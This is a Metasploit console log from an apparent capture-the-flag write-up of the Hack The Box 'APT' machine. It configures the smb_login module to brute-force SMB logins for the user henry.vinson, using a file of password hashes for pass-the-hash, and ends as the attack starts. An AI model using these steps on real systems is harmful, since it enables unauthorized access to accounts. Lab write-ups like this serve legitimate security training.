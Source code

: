 ```
Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/smb/smb_login

msf6 > use 0
msf6 auxiliary(scanner/smb/smb_login) > show options

Module options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   ABORT_ON_LOCKOUT   false            yes       Abort the run when an account lockout is detected
   BLANK_PASSWORDS    false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS       false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS        false            no        Add all passwords in the current database to the list
   DB_ALL_USERS       false            no        Add all users in the current database to the list
   DETECT_ANY_AUTH    false            no        Enable detection of systems accepting any authentication
   DETECT_ANY_DOMAIN  false            no        Detect if domain is required for the specified user
   PASS_FILE                           no        File containing passwords, one per line
   PRESERVE_DOMAINS   true             no        Respect a username that contains a domain name.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST       false            no        Record guest-privileged random logins to the database
   RHOSTS                              yes       The target host(s), range CIDR identifier, or hosts file with syntax
                                                  'file:<path>'
   RPORT              445              yes       The SMB service port (TCP)
   SMBDomain          .                no        The Windows domain to use for authentication
   SMBPass                             no        The password for the specified username
   SMBUser                             no        The username to authenticate as
   STOP_ON_SUCCESS    false            yes       Stop guessing when a credential works for a host
   THREADS            1                yes       The number of concurrent threads (max one per host)
   USERPASS_FILE                       no        File containing users and passwords separated by space, one pair per
                                                  line
   USER_AS_PASS       false            no        Try the username as the password for all users
   USER_FILE                           no        File containing usernames, one per line
   VERBOSE            true             yes       Whether to print output for all attempts

msf6 auxiliary(scanner/smb/smb_login) > set BRUTEFORCE_SPEED 0
BRUTEFORCE_SPEED => 0
msf6 auxiliary(scanner/smb/smb_login) > set RHOSTS apt.htb.local
RHOSTS => apt.htb.local
msf6 auxiliary(scanner/smb/smb_login) > set SMBUSER henry.vinson
SMBUSER => henry.vinson
msf6 auxiliary(scanner/smb/smb_login) > set SMBDomain htb.local
msf6 auxiliary(scanner/smb/smb_login) > set PASS_FILE /home/utopia/Documents/Writeups/Boxes/APT/smb/hash
hash.txt        hashes-pth.txt  
msf6 auxiliary(scanner/smb/smb_login) > set PASS_FILE /home/utopia/Documents/Writeups/Boxes/APT/smb/hashes-pth.txt
PASS_FILE => /home/utopia/Documents/Writeups/Boxes/APT/smb/hashes-pth.txt
msf6 auxiliary(scanner/smb/smb_login) > exploit

[*] dead:beef::b885:d62a:d679:573f:445 - dead:beef::b885:d62a:d679:573f:445 - Starting SMB login bruteforce
```